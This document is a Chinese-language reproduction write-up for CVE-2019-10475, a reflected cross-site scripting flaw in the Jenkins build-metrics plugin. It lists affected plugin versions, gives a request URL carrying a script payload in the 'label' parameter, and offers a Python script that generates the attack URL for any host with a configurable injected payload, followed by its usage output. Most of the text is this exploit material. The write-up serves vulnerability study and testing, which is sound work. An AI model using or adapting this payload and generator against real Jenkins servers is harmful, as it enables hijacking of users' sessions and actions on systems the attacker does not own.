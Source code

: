 （CVE-2019-10475） 插件反射型xss
================================

一、漏洞简介
------------

二、漏洞影响
------------

360 FireLine插件， 最高包括1.7.2 Bitbucket OAuth插件， 最高包括0.9
Build-metrics插件 1.3及以下 部署WebLogic Plugin 最高至4.1
Dynatrace应用程序监视插件， 最高包括2.1.3 Dynatrace应用程序监视插件，
最高包括2.1.4 ElasticBox Jenkins Kubernetes CI / CD插件， 最高至1.3
包含1.1.4及以下版本的 全局Post Script插件 Libvirt Slaves插件，
最高包括1.8.5 截至 2.7.0的 Mattermost Notification插件 Sonar
Gerrit插件， 最高包括2.3 Zulip插件 （包括1.1.0及以下）

三、复现过程
------------

### 1、手工复现

该vulnearble插件位于[http://localhost:8080/plugin/build-metrics/，漏洞参数为label。](http://localhost:8080/plugin/build-metrics/，漏洞参数为label。)

    http://192.168.1.75:8080/plugin/build-metrics/getBuildStats?label=<script>alert("CVE-2019-10475")</script>&range=2&rangeUnits=Weeks&jobFilteringType=ALL&jobFilter=&nodeFilteringType=ALL&nodeFilter=&launcherFilteringType=ALL&launcherFilter=&causeFilteringType=ALL&causeFilter=&Jenkins-Crumb=4412200a345e2a8cad31f07e8a09e18be6b7ee12b1b6b917bc01a334e0f20a96&json=%7B%22label%22%3A+%22Search+Results%22%2C+%22range%22%3A+%222%22%2C+%22rangeUnits%22%3A+%22Weeks%22%2C+%22jobFilteringType%22%3A+%22ALL%22%2C+%22jobNameRegex%22%3A+%22%22%2C+%22jobFilter%22%3A+%22%22%2C+%22nodeFilteringType%22%3A+%22ALL%22%2C+%22nodeNameRegex%22%3A+%22%22%2C+%22nodeFilter%22%3A+%22%22%2C+%22launcherFilteringType%22%3A+%22ALL%22%2C+%22launcherNameRegex%22%3A+%22%22%2C+%22launcherFilter%22%3A+%22%22%2C+%22causeFilteringType%22%3A+%22ALL%22%2C+%22causeNameRegex%22%3A+%22%22%2C+%22causeFilter%22%3A+%22%22%2C+%22Jenkins-Crumb%22%3A+%224412200a345e2a8cad31f07e8a09e18be6b7ee12b1b6b917bc01a334e0f20a96%22%7D&Submit=Search

![](./resource/(CVE-2019-10475)反射xss/media/rId26.png)

### 2、利用脚本

    #!/usr/bin/env python

    import sys
    import argparse

    VULN_URL = '''{base_url}/plugin/build-metrics/getBuildStats?label={inject}&range=2&rangeUnits=Weeks&jobFilteringType=ALL&jobFilter=&nodeFilteringType=ALL&nodeFilter=&launcherFilteringType=ALL&launcherFilter=&causeFilteringType=ALL&causeFilter=&Jenkins-Crumb=4412200a345e2a8cad31f07e8a09e18be6b7ee12b1b6b917bc01a334e0f20a96&json=%7B%22label%22%3A+%22Search+Results%22%2C+%22range%22%3A+%222%22%2C+%22rangeUnits%22%3A+%22Weeks%22%2C+%22jobFilteringType%22%3A+%22ALL%22%2C+%22jobNameRegex%22%3A+%22%22%2C+%22jobFilter%22%3A+%22%22%2C+%22nodeFilteringType%22%3A+%22ALL%22%2C+%22nodeNameRegex%22%3A+%22%22%2C+%22nodeFilter%22%3A+%22%22%2C+%22launcherFilteringType%22%3A+%22ALL%22%2C+%22launcherNameRegex%22%3A+%22%22%2C+%22launcherFilter%22%3A+%22%22%2C+%22causeFilteringType%22%3A+%22ALL%22%2C+%22causeNameRegex%22%3A+%22%22%2C+%22causeFilter%22%3A+%22%22%2C+%22Jenkins-Crumb%22%3A+%224412200a345e2a8cad31f07e8a09e18be6b7ee12b1b6b917bc01a334e0f20a96%22%7D&Submit=Search'''


    def get_parser():
        parser = argparse.ArgumentParser(description='CVE-2019-10475')
        parser.add_argument('-p', '--port', help='port', default=80, type=int)
        parser.add_argument('-d', '--domain', help='domain', default='localhost', type=str)
        parser.add_argument('-i', '--inject', help='inject', default='<script>alert("CVE-2019-10475")</script>', type=str)
        return parser


    def main():
        parser = get_parser()
        args = vars(parser.parse_args())
        port = args['port']
        domain = args['domain']
        inject = args['inject']
        if port == 80:
            base_url = f'http://{domain}'
        elif port == 443:
            base_url = f'https://{domain}'
        else:
            base_url = f'http://{domain}:{port}'
        build_url = VULN_URL.format(base_url=base_url, inject=inject)
        print(build_url)
        return 0


    if __name__ == '__main__':
        sys.exit(main())
    Usage:

    $ python3 CVE-2019-10475.py --help
    usage: CVE-2019-10475.py [-h] [-p PORT] [-d DOMAIN] [-i INJECT]

    CVE-2019-10475

    optional arguments:
      -h, --help            show this help message and exit
      -p PORT, --port PORT  port
      -d DOMAIN, --domain DOMAIN
                            domain
      -i INJECT, --inject INJECT
                            injec
